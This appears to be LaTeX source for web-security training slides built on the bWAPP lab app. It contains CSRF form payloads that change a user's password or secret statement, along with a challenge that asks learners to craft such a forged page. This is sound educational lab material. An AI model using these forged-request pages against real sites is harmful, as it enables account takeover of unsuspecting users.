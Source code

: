 \documentclass[12pt]{extarticle}
\newenvironment{instructionblock}{\Large\bgroup}{\egroup}
\begin{document}
\begin{lstlisting}[basicstyle=\small, language=php, breaklines=true]
<h1>CSRF (Change Password)</h1>

	<p>Change your password.</p>

	<form action="http://www.bwapp.com/csrf_1.php?" method="GET">

		<p><label for="password_new">New password:</label><br />
		<input type="password" id="password_new" name="password_new" value = "bug" ></p>

		<p><label for="password_conf">Re-type new password:</label><br />
		<input type="password" id="password_conf" name="password_conf" value = "bug" ></p>  

		<button type="submit" name="action" value="change">Change</button>   

	</form>

\end{lstlisting}




\pagebreak
\begin{slide}{Challenge III: Modified CSRF Attack}{\hyperref[slide 16]{\textless}\hyperref[slide 18]{\textgreater}}
	\begin{instructionblock}
		\begin{enumerate}
			\item From \textbf{Choose your bug}, select \textbf{Cross-Site Request Forgery(Change Secret)}
			\item Set security level to \textbf{low} and then press \textbf{Hack}
			\item As we did in previous tutorial, create a HTML page that can be injected using CSRF, and execute that html page such that it changes the secret statement to something else.
		\end{enumerate}
	\end{instructionblock}	
\end{slide}



\vfill
\vspace{2mm}
\noindent 
\textbf{Hint:}
This challenge involves changing the secret statement of a user, by employing cross site request forgery mechanism. You'll have to create a new HTML page, based on the following code:  

\begin{lstlisting}[basicstyle=\small, language=php, breaklines=true]
<h1>CSRF (Change Secret)</h1>

	<p>Change your secret.</p>

	<form action="/bWAPP/csrf_3.php" method="POST">

		<p><label for="secret">New secret:</label><br />
		<input type="text" id="secret" name="secret"></p>

		<input type="hidden" name="login" value="bee">

		<button type="submit" name="action" value="change">Change</button>

	</form>
\end{lstlisting}
\end{document}

